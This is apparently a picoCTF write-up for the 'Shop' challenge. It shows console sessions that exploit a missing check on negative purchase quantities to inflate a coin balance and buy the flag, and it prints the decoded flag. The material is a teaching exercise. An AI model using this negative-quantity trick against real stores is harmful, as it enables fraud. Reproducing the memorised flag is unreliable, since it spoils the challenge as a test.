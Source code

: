 # Shop
## Description
Best Stuff - Cheap Stuff, Buy Buy Buy... Store Instance: [source](source). The shop is open for business at `nc mercury.picoctf.net 34938`.
## Hints
1. Always check edge cases when programming
## Solution
1. Run the program.
```console
% nc mercury.picoctf.net 34938
Welcome to the market!
=====================
You have 40 coins
	Item		Price	Count
(0) Quiet Quiches	10	12
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option: 
```
2. Try option 2.
```console
2
How many do you want to buy?
1
Not enough money.
You have 40 coins
	Item		Price	Count
(0) Quiet Quiches	10	12
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option: 
```
3. Buy an item.
```console
0
How many do you want to buy?
1
You have 30 coins
	Item		Price	Count
(0) Quiet Quiches	10	11
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option: 
```
4. Can we buy a negative number of items?
```console
0
How many do you want to buy?
-1
You have 40 coins
	Item		Price	Count
(0) Quiet Quiches	10	12
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option: 
```
5. Bingo. Buy `-6` Quiet Quiches and then buy the Fruitful Flag.
```console
0
How many do you want to buy?
-6
You have 100 coins
	Item		Price	Count
(0) Quiet Quiches	10	18
(1) Average Apple	15	8
(2) Fruitful Flag	100	1
(3) Sell an Item
(4) Exit
Choose an option: 
2
How many do you want to buy?
1
Flag is:  [112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 98 97 54 98 56 99 100 102 125]
```
6. Looks like ASCII. Use [CyberChef](https://gchq.github.io/CyberChef/) to decode it: `picoCTF{b4d_brogrammer_ba6b8cdf}`
